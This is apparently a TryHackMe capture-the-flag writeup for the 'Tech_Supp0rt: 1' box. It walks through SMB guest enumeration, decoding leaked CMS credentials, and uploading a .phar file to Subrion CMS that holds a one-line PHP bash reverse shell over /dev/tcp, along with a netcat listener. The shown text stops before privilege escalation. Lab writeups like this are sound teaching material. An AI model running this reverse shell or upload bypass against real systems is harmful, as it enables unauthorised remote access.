


# Tech_Supp0rt: 1 - TryHackMe Writeup

## Description
Tech_Supp0rt: 1 is a beginner-friendly box on TryHackMe designed to simulate a real-world technical support scenario. The challenge involves identifying vulnerabilities, exploiting misconfigurations, and escalating privileges to gain root access. This writeup documents the step-by-step approach taken to solve the machine, focusing on practical techniques and learning outcomes.

**Note:** Metasploit was not used during the solution of this machine. All exploitation and enumeration were performed manually to encourage deeper understanding of the underlying processes.

---

## Enumeration
For enumeration I used a simple nmap scan with the key -A (which includes -sC - simple scripts, -sV - port and services scan, -O - OS detection):

```bash
nmap -A 10.201.31.100
```


The scan has identified 4 open ports:
- 22: SSH
- 80: HTTP
- 139: Legacy SMB file sharing
- 445: Current standard for SMB file sharing

The detailed nmap scan also revealed that the security for Samba is relatively weak and can be accessed in guest mode (no authenticaion), so I will start with searching through the samba shared files. For this we will use this smbclient command:

```bash
smbclient -L //10.201.31.100/ -N
```

This command lists all the available shares (-L) on the target as well as supresses the password prompt, since we already know that a connection can be established with a guest account:


The websrv share is exactly what we are looking for here. Lets connect to the share and inspect what it contains. For this purpose I used the same command, but removed the -L key to simply connect to the share instead of listing:

```bash
smbclient //10.201.31.100/websvr -N
```


And there it is! Using simple commands - ls and get, we have spotted the file enter.txt and downloaded it for later inspection.

Let us take a look at what is inside the file we have just downloaded.


The samba share is cleared now. Now we will see what we have on the HTTP front, but first lets assess the txt file. The file describes 'goals' for the admin, they include:
- Setting up a fake popup website
- Fix the subrion from the /panel, as there is an issue with the /subrion
- Edit the wordpress webiste

This is all very important information. The admin gave us the location to one of the panels - the subrion panels. Under that he also included the credentials for subrion:
- **admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk**

However it also states the credentials were 'cooked with a magical formula', which probably implies encoding of some kind. Upon a first look we can conclude that the key is not base64 or base32 encoded, since they typically contain a signature '=' or '==' sign at the end.

After running multiple tests on the string and searching for a good decypher tool, I found this one:
- https://gchq.github.io/CyberChef

This tool can be used to encode/decode various inputs such as base64, base32, hexdump and many more. However, the most interesting tool on this website is 'Magic', which really connects to the hint left to us by the admin - "Cooked with a **magic** formula".

Using that tool on the key we found, gives us the following result:


So here are the credentials for the Subrion panel:
- **Username: admin**
- **Password: Scam2021**

---

## Gaining Access

Now, that we have the credentials for the Subrion panel, let us go and see the web page for ourselves. First lets head to http://10.201.31.100/. 

We are greeted with the defualt apache index.html page:


Now lets try and view the subrion using /subrion:


I assume this is the issue the admin was talking about. The CMS is misconfigured which leads to a redirection of the home page.

Since we already know that a subrion panel exists and that it should not have the smae issue, lets visit that page and use the credentials we have already acquired:




Now, if we go onto the System ---> System on the left dock we can see that the site url is misconfigured:



Fix the issue by inserting the correct IP address instead of the faulty one. This will be crucial for latter steps.

The issue with redirection is now fixed, lets proceed.

Now we have to find a way to plant a reverse shell to get ahold of the system. There are mutliple ways of achieving that:
- Metasploit framework - can quickly discover a vulnerability and exploit it.
- Finding the vulnerability manually, but using a pre-written exploit - finding the vulnerability in the web and using a script written to exploit that vulnerability.
- Manually finding the vulnerability and exploiting it.

The method we are going to be using is the last one. For simple CTFs like the one we are doing, performing a completely manual pentest seems to me like a much better option for self-development.

Uploading a reverse shell and launching it could be done in two ways on Subrion. First way is creating a new php page with a code instructing it to send a interactive bash shell to your session (IP + port). I have failed to achieve the result this way, since Subrion was really hesitant about importing php code onto a page, even simple obfuscation did not work. 

The second way would be to upload a php script from personal files onto the CMS and using the /uploads directory to open it up. Here things are also a little tricky, most likely due to the Apache configuration. I believe the file .htaccess is blocking any php files from running, or it could be the Subrion itself. Nevertheless, while trying to find a way to overcome this issue, I found this on one of descriptions of Subrion CMS vulnerabilities:

**/panel/uploads in Subrion CMS 4.2.1 allows remote attackers to execute arbitrary PHP code via a .pht or .phar file, because the .htaccess file omits these.**

This confirmed my deduction regarding .htaccess block and also gave us a way to create the plant the php code into the uploads directory and afterwards successfully launch it.

Here is what we are going to do:

Create a simple php file with the following code, you can use the following:

<?php
system("bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
?>

I am going to use my ip plus port 7777 since it is very rarely occupied.
Name your file something like shell.phar or shell.pht (.phar worked perfectly for me).


After creating the file, go to Content ---> Uploads in Subrion Panel. You should get a page which looks like this:


On the top panel, there is a button 'Upload files' or just drag-and-drop the reverse shell you have just created:


Nice! Now, before launching the shell, lets create a session on our end that awaits incoming connections. We can accomplish that with the following netcat command:

```bash
nc -nlvp 7777
```

The last parameter is the port number that you have used when creating the reverse shell, as I have previously stated, I chose 7777.


Now that our devices is awaiting a connection attempt, lets launch the reverse shell we have planted:

Go to the directory /subrion/uploads/NAME_OF_THE_SHELL in the browser. For example, the link I will use to start the reverse shell is:

```bash
http://10.201.31.100/subrion/uploads/shell.phar
```


And this is the result we get on our device:


We have successfully deployed a reverse shell, now we need to perform an LPE (Local Privilege Escalation) to gain access to root.txt.


Lets look at what we have on the server:


